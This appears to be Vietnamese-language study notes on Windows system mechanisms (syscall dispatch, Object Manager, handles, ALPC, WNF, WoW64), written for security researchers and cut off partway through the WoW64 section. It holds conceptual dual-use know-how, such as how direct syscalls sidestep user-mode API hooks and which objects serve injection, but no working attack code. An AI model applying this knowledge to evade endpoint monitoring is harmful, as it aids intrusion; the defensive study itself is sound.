



# Chương 8 — System Mechanisms

---

## 0. Chapter Map

**Theo:** Windows Internals, Part 2, Chapter 8.

System mechanisms không phải là một subsystem đơn lẻ — chúng là **shared infrastructure** mà tất cả các phần khác của Windows đều sử dụng. Không hiểu những primitives này, researcher sẽ liên tục nhầm lẫn giữa "layer đang được observed" và "behavior thực sự đang xảy ra."

**Kết nối với các chương trước:**

| Chương | Khái niệm được extend trong Ch.8 |
|--------|----------------------------------|
| Ch.1 | Vocabulary: syscall, handle, object, user/kernel space |
| Ch.2 | Architecture: executive managers, Object Manager vị trí trong kernel |
| Ch.3 | Process handles, PEB/EPROCESS, address space |
| Ch.4 | Thread waits, APC, synchronization, dispatcher states |
| Ch.5 | Memory sections, mapped views, VAD |
| Ch.6 | File objects, device objects, I/O path |
| Ch.7 | Security descriptors, access checks, tokens |

**Vị trí của Ch.8:** Chương này là "glue layer" — giải thích cách các subsystem ở Ch.1–7 thực sự kết nối với nhau qua syscalls, object namespace, handles, ALPC, và notification infrastructure.

| Mục | Nội dung | Tại sao quan trọng |
|-----|----------|--------------------|
| 0 | Chapter Map | Điều hướng và kết nối |
| 1 | Researcher Mindset | Mechanisms là primitives xuất hiện khắp nơi |
| 2 | Big Picture | Toàn bộ system mechanism pipeline |
| 3 | Key Terms | Từ điển 37 thuật ngữ cốt lõi |
| 4 | Core Internals | 11 cơ chế quan trọng từ interrupt đến debugging |
| 5 | Important Components | Bảng component, object types, symbolic links, debug objects |
| 6 | Trust Boundaries | 8 ranh giới của system mechanisms |
| 7 | Attack Surface Map | Bảng attack surface map |
| 8 | Abuse Patterns | 8 class phân tích ở mức khái niệm |
| 9 | EDR Telemetry | Syscall/API/object/IPC/exception/WoW64/WNF/limits |
| 10 | Forensic Artifacts | Object/handle/IPC/exception/WoW64/notification |
| 11 | Debugging Notes | WinObj/Handle.exe/WinDbg/x64dbg/Procmon/PowerShell |
| 12 | Labs | 6 bài thực hành safe |
| 13 | Researcher Mistakes | ≥18 sai lầm phổ biến |
| 14 | Version Notes | Thay đổi qua các phiên bản |
| 15 | Summary | Tổng hợp |
| 16 | Research Questions | 12 câu hỏi nghiên cứu |
| 17 | References | Tài liệu tham khảo |
| 18 | Illustration Plan | Sơ đồ và screenshots cần tạo |

---

## 1. Researcher Mindset

### 1.1 Mechanisms là primitives, không phải features

Windows internals không phải là tập hợp các subsystem độc lập. Phần lớn những gì researcher gặp — IPC, handle access, exception handling, process injection, API hooking, WoW64 confusion — đều dựa trên một nhóm nhỏ **shared primitives** được tái sử dụng liên tục:

- Syscalls → mọi user-to-kernel transition đều đi qua đây
- Object Manager → mọi kernel resource đều là object
- Handles → mọi user-mode reference đến kernel object đều qua handle
- Dispatcher objects → mọi thread synchronization đều đi qua kernel dispatcher
- ALPC → phần lớn IPC quan trọng trong Windows đều backed bởi ALPC
- WoW64 → mọi 32-bit process trên 64-bit OS đều đi qua thunking layer này
- Exceptions → debugging, anti-debug, flow control exception đều cùng một pipeline

Researcher hiểu những primitives này sẽ đọc được ý nghĩa của behavior thay vì chỉ thấy symptoms.

### 1.2 Câu hỏi framework cho mọi observation

Khi gặp bất kỳ Windows behavior nào, researcher nên hỏi:

1. **Boundary nào đang bị crossed?** User/kernel? Process/process? Session/session? Low IL/High IL?
2. **Object nào đang bị touched?** Process? File? Section? Event? ALPC Port? Token?
3. **Handle nào liên quan, và access mask là gì?** Ai có quyền gì?
4. **Namespace nào đang được dùng?** Global? Local? Session-specific?
5. **Event/telemetry nào được generate?** ETW? Audit? Callback?
6. **Artifact nào còn lại?** Memory? Registry? Event Log? Crash dump?
7. **Behavior này thay đổi thế nào giữa các Windows builds?** Syscall numbers? Object layouts? Provider availability?

### 1.3 Bốn ví dụ cụ thể

**Ví dụ 1 — Named Event:**
Một named event không chỉ là một string. Nó là:
- Object Manager object có type `Event`
- Sống trong namespace — `\Sessions\N\BaseNamedObjects\MyEvent` hoặc `\BaseNamedObjects\Global\MyEvent`
- Có security descriptor riêng — ai có thể open, signal, wait
- Có handle granted access riêng trong mỗi process sử dụng nó
- Tồn tại chừng nào còn handle/reference — không phải forever
- Có thể là forensic artifact trong memory dump nếu process vẫn chạy

**Ví dụ 2 — Exception:**
Exception không nhất thiết là crash. Nó có thể là:
- Normal control flow — VCL, .NET framework, JavaScript engine đều dùng exception cho logic
- Debugger interaction — first-chance exception cho debugger cơ hội xem trước
- Anti-debug signal — chương trình kiểm tra có debugger không qua exception behavior
- Actual error — access violation, divide by zero, illegal instruction

Researcher phân biệt context mới kết luận được ý nghĩa.

**Ví dụ 3 — Syscall visibility:**
Một syscall không phải là "magic bypass." Nó chỉ là:
- Transition từ user mode vào kernel mode qua CPU mechanism
- Kernel authorization (access check, integrity level) vẫn áp dụng
- Thay đổi được điểm observation — user-mode API hooks không thấy direct syscall, nhưng kernel callbacks vẫn thấy
- Syscall number thay đổi theo build — hardcode là fragile

**Ví dụ 4 — WoW64:**
Một 32-bit process trên 64-bit Windows sống trong "redirected world":
- `C:\Windows\System32` trong process eyes là `C:\Windows\SysWOW64`
- `HKLM\SOFTWARE\` trong process eyes là `HKLM\SOFTWARE\Wow6432Node\`
- Module list chứa WoW64 DLLs thêm vào
- Syscall path đi qua WoW64 thunking layer
- Debugger bitness phải match process bitness để xem đúng

Researcher dùng wrong tool sẽ kết luận sai về path, registry, và DLL.

---

## 2. Big Picture

### 2.1 System mechanism pipeline



### 2.2 Giải thích pipeline

**User mode path (top):**
Application gọi Win32 API → Win32 gọi Native API qua ntdll → nếu process là 32-bit WoW64, có thêm thunking layer → cuối cùng syscall instruction làm CPU chuyển sang kernel mode.

**Transition mechanisms (giữa):**
`SYSCALL`/`SYSENTER` là intentional path. Exception và interrupt là conditional paths — exception từ code anomaly, interrupt từ hardware/timer. Cả ba đều dẫn vào kernel.

**Kernel side (phải):**
System Service Dispatcher route syscall đến đúng kernel service. Object Manager quản lý resource objects. SRM thực hiện access checks. Executive managers (Mm, Io, Ps, Se, ...) thực hiện actual work. ALPC và WNF là cross-process/cross-component communication layers.

**Observability (bottom right):**
ETW providers generate events tại nhiều điểm. Debugger nhận exceptions và events. Event Log nhận audit records. Memory forensics có thể recover object state sau khi event đã xảy ra.

**Key insight:** Changing call path (ví dụ: direct syscall thay vì Win32 API) thay đổi điểm observation ở user-mode layer, nhưng kernel layer vẫn được triggered. Researcher cần biết monitoring đang xảy ra ở layer nào.

---

## 3. Key Terms

| Term | Giải thích tiếng Việt | Researcher relevance |
|------|-----------------------|---------------------|
| **Trap** | Controlled transition vào kernel triggered bởi instruction hoặc condition | Syscalls, breakpoints, và illegal instructions đều tạo trap |
| **Interrupt** | Asynchronous event — thường từ hardware/device/timer | Timer interrupt drives scheduling; hardware events cần handling |
| **Exception** | Abnormal condition xảy ra trong quá trình instruction execution | Bao gồm AV, divide-by-zero, breakpoint — không nhất thiết là crash |
| **Fault** | Exception cho phép retry instruction sau khi handled | Page fault là fault; processor retries truy cập sau khi page được load |
| **System call (syscall)** | Intentional CPU transition từ user mode sang kernel mode | Mọi kernel resource access đều qua đây; observation layer changes |
| **Syscall stub** | Đoạn code ngắn trong ntdll chứa syscall number và SYSCALL instruction | Build-specific; số thay đổi mỗi Windows release |
| **System service dispatcher** | Kernel routine nhận syscall, lookup service table, gọi kernel function | Routes syscall number → actual kernel implementation |
| **SSDT** | System Service Descriptor Table — bảng pointer đến kernel service handlers | Chứa syscall number mappings; số entry và addresses là build-specific |
| **ntdll.dll** | Lowest user-mode DLL — chứa syscall stubs, heap, loader, và Native API | Gần như mọi process load ntdll; quan trọng cho API tracing |
| **WoW64** | Windows 32-on-Windows 64 — compatibility layer cho 32-bit process | Thunks 32-bit API calls sang 64-bit; gây confusion về paths/modules |
| **Heaven's Gate** | Far call kỹ thuật trong WoW64 process để switch sang 64-bit code segment | Concept hữu ích để hiểu WoW64 thunking và tại sao EDR cần 64-bit hooks |
| **Object Manager** | Executive component quản lý tất cả kernel objects — namespace/type/handles/refcount | Central resource registry của Windows kernel |
| **Object type** | Metadata mô tả behavior của một loại object (Parse/Delete/Security callbacks) | Determines valid operations; type-specific policies |
| **Object namespace** | Hierarchical tree of object directories — như filesystem nhưng trong kernel | Tất cả named objects có đường dẫn ở đây; không visible trong Explorer |
| **Object directory** | Container trong namespace, giống folder | `\Device`, `\Sessions`, `\BaseNamedObjects` là các directories quan trọng |
| **Symbolic link object** | Object ánh xạ một namespace path sang path khác | Drive letters là symlinks; `\GLOBAL??\C:` → `\Device\HarddiskVolume3` |
| **Handle** | Per-process integer index vào handle table — proxy cho kernel object | Encodes granted access mask; không có ý nghĩa toàn cục |
| **Handle table** | Per-process table mapping handle values → object pointer + access rights | Forensically valuable; reveals process relationships |
| **Reference count** | Số lượng references đến object (handles + kernel pointers) | Object freed chỉ khi ref count = 0 |
| **Pointer count** | Kernel internal pointer references — bao gồm cả references không phải handle | `PointerCount ≥ HandleCount`; object sống qua handle close nếu còn kernel refs |
| **Named object** | Object được đặt tên trong namespace — có thể share cross-process | IPC, coordination, mutex; bị ảnh hưởng bởi session namespace |
| **Session namespace** | Per-session object directory — `\Sessions\N\BaseNamedObjects` | Named objects trong session N không tự động visible trong session M |
| **BaseNamedObjects** | Primary namespace cho named user objects | Đây là nơi `CreateEvent("MyEvent")` tạo object |
| **Global\** | Prefix để tạo global object vượt qua session boundary | `Global\MyMutex` → `\BaseNamedObjects\MyMutex` |
| **Local\** | Prefix chỉ định session-local object (default nếu không có prefix) | `Local\MyEvent` → `\Sessions\N\BaseNamedObjects\MyEvent` |
| **Dispatcher object** | Kernel object có thể được waited on — Event, Mutant, Semaphore, Timer | Cơ sở của tất cả thread synchronization |
| **Event** | Dispatcher object — signaled/non-signaled, auto-reset/manual-reset | IPC, synchronization, notification trigger |
| **Mutex (Mutant)** | Dispatcher object — owned by one thread at a time | Mutual exclusion; kernel object tên là `Mutant` |
| **Semaphore** | Dispatcher object — integer counter, waiters released khi counter > 0 | Resource count limiting |
| **Timer** | Dispatcher object — signals after timeout hoặc periodic interval | Scheduled execution; `SetWaitableTimer` |
| **Waitable object** | Object có thể được passed đến `WaitForSingleObject` / `WaitForMultipleObjects` | Process, Thread, Event, Mutex, Semaphore, Timer đều waitable |
| **Worker thread** | System-managed thread pool để execute queued work items | `ExQueueWorkItem` / `IoQueueWorkItem`; delayed/async kernel work |
| **ALPC** | Advanced Local Procedure Call — in-kernel IPC mechanism | Backs RPC, COM, và nhiều Windows service IPC; không visible trên network |
| **Port object** | Kernel object đại diện ALPC connection endpoint | Server tạo connection port; mỗi client có communication port riêng |
| **WNF** | Windows Notification Facility — pub-sub state notification | OS-internal event fabric; ít documented hơn ETW |
| **WNF state name** | 64-bit identifier cho một WNF state slot | Version-specific; không stable across builds như Event IDs |
| **Publisher/Subscriber (WNF)** | Component publish state thay đổi → subscribers được notify | Model khác ETW: subscribers nhận current state, không phải event stream |
| **Exception dispatcher** | Kernel component route exception đến handler (KD → debugger → VEH → SEH → WER) | Pipeline này quan trọng cho debugging và anti-debug research |
| **Debug object** | Kernel object mà debugger dùng để nhận debug events từ debuggee | `EPROCESS.DebugPort` trỏ vào đây; không phải LPC port mặc dù tên gọi vậy |
| **Debugger** | Process attach đến target qua debug object; nhận exceptions và process events | User-mode: `DebugActiveProcess`; kernel-mode: KD qua transport |
| **File system redirector** | WoW64 component chuyển System32 → SysWOW64 cho 32-bit processes | Transparent với 32-bit app; confusing cho researcher dùng wrong tool |
| **Registry redirector** | WoW64 component chuyển `SOFTWARE\` → `SOFTWARE\Wow6432Node\` | Per-key; không phải toàn bộ registry đều được redirect |

---

## 4. Core Internals

### 4.1 Interrupts, Traps, và Exceptions

**Ba loại event đưa CPU vào kernel:**

| Loại | Nguồn gốc | Ví dụ | Synchronous? |
|------|-----------|-------|-------------|
| **Interrupt** | Hardware/external | Device I/O complete, timer tick, IPI | Asynchronous |
| **Trap** | Controlled by instruction | Syscall, breakpoint (`INT 3`), debug trap | Synchronous |
| **Exception** | Abnormal condition | Access violation, divide-by-zero, illegal instruction | Synchronous |

**Fault vs Trap (distinction):**
Cả hai đều là loại exception. **Fault** (page fault, general protection fault) cho phép processor retry instruction sau khi handler giải quyết điều kiện. **Trap** không retry — execution tiếp tục tại instruction sau. Syscall và `INT 3` breakpoint là traps.

**Quan trọng nhất cho researcher:**

*Không phải mọi exception đều là crash.* .NET runtime, JavaScript engines, VCL/MFC frameworks đều dùng exceptions cho normal control flow. `EXCEPTION_BREAKPOINT` (0x80000003) xuất hiện khi `DebugBreak()` được gọi — không phải crash. Researcher cần xem exception code, context, và handler behavior.

*Interrupt không phải event để hook thông thường.* Timer interrupt (IRQL DISPATCH_LEVEL) drives preemptive scheduling. Hardware interrupts handled bởi ISRs. Researcher quan tâm đến interrupt behavior nhiều hơn ở context của: DPC timing, kernel-mode timing attacks, timer resolution.

*Syscall là controlled trap.* CPU chuyển privilege level, kernel validates arguments, authorization vẫn enforced. Thay đổi cách gọi (direct syscall vs Win32 API) không bypass kernel checks — chỉ thay đổi điểm observation ở user-mode layer.

### 4.2 System Service Dispatch

> Research caveat:
> syscall numbers, SSDT/system service dispatch internals, ALPC internals, and WNF internals are build-, symbol-, and configuration-dependent. Treat them as a research model, then verify on the target build with public symbols, WinDbg, Microsoft documentation, and controlled lab observations.

**Path đầy đủ từ user code đến kernel service:**

```
Application
  │ calls Win32 API (e.g., CreateFile)
  ▼
kernel32.dll / kernelbase.dll
  │ thunk / validate / convert parameters
  ▼
ntdll.dll — NtCreateFile syscall stub:
  mov r10, rcx          ; save first argument
  mov eax, <syscall_number>  ; load service number (build-specific)
  syscall               ; CPU trap into kernel
  ▼
KiSystemCall64 (kernel)
  │ SWAPGS (swap GS base: user TEB → kernel PRCB)
  │ switch RSP to kernel stack
  │ save user context
  │ validate syscall number
  ▼
KeServiceDescriptorTable lookup
  │ syscall_number → function pointer → NtCreateFile (kernel)
  ▼
Actual kernel service executes
  │ SRM access check, Object Manager lookup, I/O, ...
  ▼
Return to user mode via SYSRETQ
  SWAPGS, restore RSP to user stack
  ▼
Back in ntdll syscall stub → return to caller
```

**Điểm quan trọng cho researcher:**

*Syscall numbers là build-specific.* Số thay đổi giữa các Windows versions, service packs, và cumulative updates. Tool hardcode syscall numbers sẽ break trên builds khác. Đây là lý do tại sao legitimate syscall monitoring tools dùng symbol lookup, không hardcode.

*Monitoring layer xác định visibility.* API hooking ở kernel32 thấy Win32 calls. ntdll hooking thấy Native API calls. Kernel ETW thấy syscall entries bất kể user-mode call path. Researcher cần biết monitoring đang ở layer nào để interpret kết quả đúng.

*WoW64 process có thêm bước.* 32-bit process trên 64-bit Windows có WoW64 thunking layer trước khi đến SYSCALL. Xem Section 4.10.

### 4.3 Object Manager

**Object Manager là trung tâm của Windows resource management.**

Mọi kernel resource có lifetime, naming, security, và reference tracking đều là object. Object Manager cung cấp:

| Service | Chức năng |
|---------|-----------|
| **Object namespace** | Hierarchical name tree từ `\` |
| **Object types** | Template định nghĩa valid operations và callbacks cho mỗi loại |
| **Handle management** | Per-process handle tables mapping handles → objects |
| **Reference counting** | Track lifetime; free khi ref count = 0 |
| **Security integration** | Mỗi object có security descriptor; access check qua SRM |
| **Symbolic links** | Namespace aliases; drive letters → device paths |

**Các object types phổ biến:**

| Type | Dùng cho | Researcher relevance |
|------|---------|---------------------|
| `Process` | Process objects — `EPROCESS` | IPC, token, handle inheritance |
| `Thread` | Thread objects — `ETHREAD` | APC injection, context hijack |
| `File` | File/device/pipe/mailslot | I/O path, named pipe forensics |
| `Section` | Shared memory mappings | Code injection vector, IPC |
| `Event` | Signaling, synchronization | Named event fingerprint, IPC |
| `Mutant` | Mutex — exclusive ownership | Software fingerprint, mutex squatting |
| `Semaphore` | Resource count | Resource limits |
| `Timer` | Scheduled wakeup | Delayed execution, timing |
| `Token` | Security identity | Impersonation, privilege analysis |
| `Directory` | Namespace container | Namespace structure |
| `SymbolicLink` | Namespace alias | Path decode, drive letter |
| `ALPC Port` | IPC endpoint | Service communication |
| `DebugObject` | Debugger ↔ debuggee channel | Anti-debug analysis |
| `Key` | Registry keys | Registry operations |
| `IoCompletion` | Async I/O completion | I/O patterns |

**Reference counting:** Object không bị freed khi handle count = 0 nếu còn kernel pointer references. Đây là lý do tại sao một object có thể sống qua process exit — nếu kernel component khác giữ pointer tới nó. Forensically: memory dump có thể chứa objects từ processes đã terminated.

### 4.4 Object Namespace

**Object Manager namespace là một hierarchical tree trong kernel — không phải filesystem.**

```
\                              (root directory)
├── Device\                    (device objects — disk, net, serial, ...)
│   ├── HarddiskVolume3
│   ├── NamedPipe\
│   └── ...
├── Driver\                    (driver objects)
├── GLOBAL??\                  (global DOS device aliases)
│   ├── C: → \Device\HarddiskVolume3
│   ├── COM1 → \Device\Serial0
│   └── PIPE → \Device\NamedPipe
├── KernelObjects\             (system events, memory threshold events)
├── Sessions\
│   ├── 0\                     (Session 0 — services)
│   │   └── BaseNamedObjects\
│   ├── 1\                     (Session 1 — interactive user)
│   │   └── BaseNamedObjects\
│   └── ...
├── BaseNamedObjects\          (global named objects — accessible across sessions with Global\)
└── RPC Control\               (ALPC port objects for RPC)
```

**Symbolic link objects trong namespace:**
- Drive letters (`C:`, `D:`) là symbolic link objects trong `\GLOBAL??`
- Khi user code mở `\\.\C:\file.txt`, Object Manager resolve `C:` qua symlink trước
- Researcher dùng WinObj để thấy actual targets — không phải Explorer

**Session namespace isolation:**
- Named object `CreateEvent(NULL, FALSE, FALSE, "MyEvent")` → tạo tại `\Sessions\N\BaseNamedObjects\MyEvent`
- Không visible từ session khác trừ khi dùng `Global\MyEvent`
- Service trong Session 0 và user trong Session 1 có namespace riêng — mặc dù share một OS
- `Global\` prefix → `\BaseNamedObjects\MyEvent` (visible cross-session)
- `Local\` prefix → `\Sessions\N\BaseNamedObjects\MyEvent` (session-specific, explicit)

> **Researcher note:** Object name không đủ để identify object. Cần biết: session, namespace path, object type, và security descriptor. Hai processes có thể open "MyMutex" nhưng đang hold handle đến hai objects khác nhau nếu ở different sessions.

### 4.5 Handles và References

**Handle là per-process index — không phải global identifier.**

```
Process A handle table:
  0x4  → Process object (lsass.exe)  — PROCESS_QUERY_INFORMATION
  0x8  → File object (C:\log.txt)    — GENERIC_READ
  0xC  → Event object (MyEvent)      — EVENT_ALL_ACCESS
  0x10 → Token object (own token)    — TOKEN_ALL_ACCESS

Process B handle table:
  0x4  → File object (C:\other.txt)  — GENERIC_WRITE
  0x8  → Event object (MyEvent)      — EVENT_MODIFY_STATE
```

Cùng handle value `0x8` có thể refer đến hoàn toàn khác objects trong hai processes khác nhau. Handle value không có global meaning.

**Access mask trong handle:**
Khi handle được created/opened, access mask được granted và stored. Subsequent operations được validated against granted access. Kernel không re-check DACL mỗi lần operation — handle là "pre-authorized ticket."

**Handle duplication và inheritance:**
- `DuplicateHandle` copy handle từ one process sang another — thay đổi giả định về isolation
- Inheritable handles (`SECURITY_ATTRIBUTES.bInheritHandle = TRUE`) pass sang child processes khi `CreateProcess` với `bInheritHandles = TRUE`
- `PROC_THREAD_ATTRIBUTE_HANDLE_LIST` cho phép chỉ định whitelist handles được inherit — tốt hơn all-or-nothing

**Forensic angle:** Handle table của một process cho thấy nó đang interacting với gì — files, processes, tokens, sections, devices. Unusual handles (ví dụ: process handle đến sensitive process với WRITE access, token handle từ another user) là high-signal indicators.

### 4.6 Dispatcher Objects và Synchronization

**Dispatcher object là kernel object có thể được "waited on."**

Thread gọi `WaitForSingleObject(hEvent, INFINITE)` → kernel dispatcher suspends thread, puts it on wait list của object. Khi object được signaled → dispatcher wakes waiting threads theo priority.

**Các loại dispatcher objects:**

| Object | Signaled when | Auto-reset? |
|--------|--------------|-------------|
| **Event (auto-reset)** | Explicitly signaled | YES — resets after one thread released |
| **Event (manual-reset)** | Explicitly signaled | NO — stays signaled until reset |
| **Mutant (Mutex)** | Thread releases ownership | YES — next waiter becomes owner |
| **Semaphore** | Count released above 0 | Decrements count per release |
| **Timer** | Expiration time reached | Configurable |
| **Process** | Process exits | NO |
| **Thread** | Thread exits | NO |

**Named synchronization objects trong namespace:**
Named objects allow cross-process coordination. Software sử dụng named mutex để enforce single-instance (`CreateMutex(NULL, TRUE, "MyAppMutex")`). Named event để signal completion. Named semaphore để limit concurrent access.

**Forensic fingerprint:** Named mutex/event patterns là software fingerprints. Malware families thường dùng specific mutex names để detect "already running" trên một system. Presence/absence của named mutex là một artifact — nhưng phải correlate với other evidence, không standalone.

**Wait chains:** Debugger (WinDbg `!waitanalysis`, Task Manager wait chain viewer) show thread wait chains — hữu ích để diagnose deadlocks và understand runtime state.

### 4.7 Timers và Worker Threads

**Timers** cho phép schedule future execution:
- **Waitable timer** (`CreateWaitableTimer`) — dispatcher object; waiting thread woken sau timeout
- **Kernel timer** (`KeSetTimer`) — driver-level; fires DPC (Deferred Procedure Call) sau timeout
- **Thread pool timers** (`CreateThreadpoolTimer`) — user-mode wrapper; schedules callback trên thread pool

**Worker threads** xử lý queued work:
- Windows maintains pool of system worker threads (kernel) và thread pool threads (user)
- Kernel: `ExQueueWorkItem` / `IoQueueWorkItem` — driver submits work item
- User: `QueueUserWorkItem`, `CreateThreadpoolWork` — async callback execution

**Researcher angle:**
- Timer-based behavior affects telemetry timing — delayed execution không ngay lập tức visible
- Worker thread attribution khó hơn direct thread creation — nhiều work items share cùng thread
- Legitimate software heavy sử dụng timers và worker threads; context cần thiết để evaluate

### 4.8 ALPC

**ALPC (Advanced Local Procedure Call)** là in-kernel IPC mechanism thay thế LPC từ Windows Vista.

**Model cơ bản:**

```
Server Process                     Client Process
    │                                    │
NtAlpcCreatePort()              NtAlpcConnectPort()
    │                                    │
    └────── Connection Port ─────────────┘
                  │
    Server: NtAlpcAcceptConnectPort()
                  │
    Communication Port (per-connection pair)
                  │
       ┌──────────┴──────────────┐
  Server sends             Client sends
  (NtAlpcSendWaitReceivePort)
```

**Ai dùng ALPC:**
- RPC (Remote Procedure Call) — phần lớn `\RPC Control\` ALPC ports trong namespace là RPC
- COM/DCOM — cross-process COM calls backed bởi RPC → ALPC
- CSRSS — subsystem communication
- LSASS — security services
- Services via SCM — nhiều service communication
- Windows internal components

**Security aspects:**
- ALPC ports có security descriptors — ai có thể connect
- Server có thể gọi impersonation của client — handle operations as client's identity
- Message attributes có thể carry security context, view information

**Researcher angle:**
ALPC là "nervous system" của Windows IPC. Nghiên cứu service communication patterns, service boundary analysis, và privilege escalation paths đều cần hiểu ALPC. Tuy nhiên, ALPC tooling ít beginner-friendly hơn named pipes — cần WinDbg hoặc specialized tools.

### 4.9 WNF

**WNF (Windows Notification Facility)** là publish-subscribe notification system, introduced Windows 10.

**Khác biệt với ETW:**
- ETW: event stream — consumers nhận events khi chúng xảy ra
- WNF: state machine — subscribers nhận current state value khi state thay đổi; nếu subscribe sau khi state đã thay đổi, vẫn nhận current value

**Model cơ bản:**
- **State name:** 64-bit identifier cho một WNF "slot"
- **Publisher:** write new value vào state — `NtUpdateWnfStateData`
- **Subscriber:** register interest, được notified khi state changes — `NtSubscribeWnfStateChange`
- **Persistence:** một số states là permanent (registry-backed), một số temporary (memory-only)

**WNF trong Windows internals:**
Nhiều Windows components dùng WNF để signal state changes:
- Shell: notification khi desktop application launched
- Security: policy change notifications
- Network: connectivity state changes
- Power: battery/power state changes

**Researcher angle:**
- Hữu ích cho reverse engineering Windows component behavior
- WNF state changes có thể reveal internal OS activity không visible qua standard APIs
- Tooling: WNFDump, NtApiDotNet — ít documented hơn ETW
- State names thay đổi giữa builds — không hardcode

### 4.10 WoW64

**WoW64 (Windows 32-on-Windows 64)** là compatibility layer cho 32-bit processes trên 64-bit Windows.

**Components:**
| Component | DLL | Chức năng |
|-----------|-----|-----------|
| WoW64 core | `wow64.dll` | Main thunking logic |
| CPU emulation | `wow64cpu.dll` | x86 → x64 register/calling convention |
| System service | `wow64win.dll` | Win32k thunks |
| NTDLL 32-bit | `SysWOW64\ntdll.dll` | 32-bit syscall stubs |

**File system redirection:**
32-bit process truy cập `C:\Windows\System32\` → WoW64 redirects sang `C:\Windows\SysWOW64\`

| 32-bit sees | Actual location |
|-------------|----------------|
